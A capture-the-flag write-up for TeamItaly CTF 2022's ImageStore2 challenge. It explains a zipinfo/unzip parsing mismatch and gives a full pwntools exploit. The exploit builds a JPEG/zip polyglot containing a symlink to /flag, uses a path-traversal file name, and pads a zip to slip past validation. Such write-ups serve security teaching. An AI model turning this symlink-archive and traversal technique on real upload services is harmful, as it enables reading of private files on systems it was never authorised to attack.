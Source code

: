 # TeamItaly CTF 2022

## ImageStore2 (2 solves)

Someone stole my top secret project for a new pasta shape!
I don't know how they did it, so I added all the checks to make sure it doesn't happen again!

I'm sure that now you can't read `/flag`!

This is a remote challenge, you can connect to the service with:

`nc imagestore2.challs.teamitaly.eu 15000`

Tip: to input a line longer than 4095 characters on your terminal, run `stty -icanon; nc imagestore2.challs.teamitaly.eu 15000`.

### Solution

The challenge is almost identical to level 1, and so it is the strategy to solve it.
There are a few differences, though.

Firstly, function 4 now doesn't contain any bugs, at least in the Python code.
Here, the bug is in the different implementation of `zipinfo` and `unzip`, both part of Info-ZIP suite.
The former checks all the file for the EOCD (end-of-central-directory) header, while the latter checks only the last 66000 or so bytes.
So, by appending a long sequence of random characters to a valid empty zip file, we can pass the `zipinfo` check and trick `unzip` into thinking that the same file isn't valid.

Secondly, the file type check in function 1 now requires to provide a valid image.
We have to create a polyglot file, that is both a valid JPEG image, and a zip containing a symlink to `/flag`.
To do that, we can use tools like mitra, or simply by appending our zip file to any valid image.
It's possible to do this because `unzip` allows for "parasite" data at the beginning of the file.

### Exploit

```python
import os
import subprocess
from pwn import *

SMALL_JPEG = b''
SMALL_JPEG += b'\xff\xd8' # SOI
SMALL_JPEG += b'\xff\xe0' # APP0
SMALL_JPEG += b'\x00\x10'
SMALL_JPEG += b'\x4a\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00\x48\x00\x00'
SMALL_JPEG += b'\xff\xdb' # DQT
SMALL_JPEG += b'\x00\x43'
SMALL_JPEG += b'\x00'
SMALL_JPEG += b'\x03\x02\x02\x02\x02\x02\x03\x02'
SMALL_JPEG += b'\x02\x02\x03\x03\x03\x03\x04\x06'
SMALL_JPEG += b'\x04\x04\x04\x04\x04\x08\x06\x06'
SMALL_JPEG += b'\x05\x06\x09\x08\x0a\x0a\x09\x08'
SMALL_JPEG += b'\x09\x09\x0a\x0c\x0f\x0c\x0a\x0b'
SMALL_JPEG += b'\x0e\x0b\x09\x09\x0d\x11\x0d\x0e'
SMALL_JPEG += b'\x0f\x10\x10\x11\x10\x0a\x0c\x12'
SMALL_JPEG += b'\x13\x12\x10\x13\x0f\x10\x10\x10'
SMALL_JPEG += b'\xff\xc9' # SOF
SMALL_JPEG += b'\x00\x0b'
SMALL_JPEG += b'\x08\x00\x01\x00\x01\x01\x01\x11\x00'
SMALL_JPEG += b'\xff\xcc' # DAC
SMALL_JPEG += b'\x00\x06\x00\x10\x10\x05'
SMALL_JPEG += b'\xff\xda' # SOS
SMALL_JPEG += b'\x00\x08'
SMALL_JPEG += b'\x01\x01\x00\x00\x3f\x00\xd2\xcf\x20'
SMALL_JPEG += b'\xff\xd9' # EOI

SMALL_ZIP = b'PK\x05\x06' + 18 * b'\x00'

HOST = os.environ.get("HOST", "imagestore2.challs.teamitaly.eu")
PORT = int(os.environ.get("PORT", 15013))

conn = remote(HOST, PORT)

conn.recvuntil(b'> ')
conn.send(b'1\n') # upload an image

initial_path = os.getcwd()
os.chdir('/tmp')

try:
    os.remove('file.zip')
    os.remove('flag')
except:
    pass

subprocess.run(['ln', '-s', '/flag', 'flag'])
subprocess.run(['zip', '--symlinks', 'file.zip', 'flag'])

with open('file.zip', 'rb') as zipfile:
    content = zipfile.read()

os.remove('file.zip')
os.remove('flag')

os.chdir(initial_path)

payload = b64e(SMALL_JPEG + content).encode()

conn.recvuntil(b': ') # image name
conn.send(b'../../tmp/images.zip.zip\n')

conn.recvuntil(b': ') # image/zip polyglot payload
conn.send(payload + b'\n')

conn.recvuntil(b'> ')
conn.send(b'4\n') # upload multiple images

payload = b64e(SMALL_ZIP + 100000 * b'A').encode()

conn.recvuntil(b': ') # zip payload
conn.send(payload + b'\n')

conn.recvuntil(b'> ')
conn.send(b'2\n') # download an image

conn.recvuntil(b'> ')
conn.send(b'0\n') # flag
conn.recvuntil(b'\n')

flag = b64d(conn.recvuntil(b'\n')).decode()

conn.close()

# Print the flag to stdout
print(flag)
```
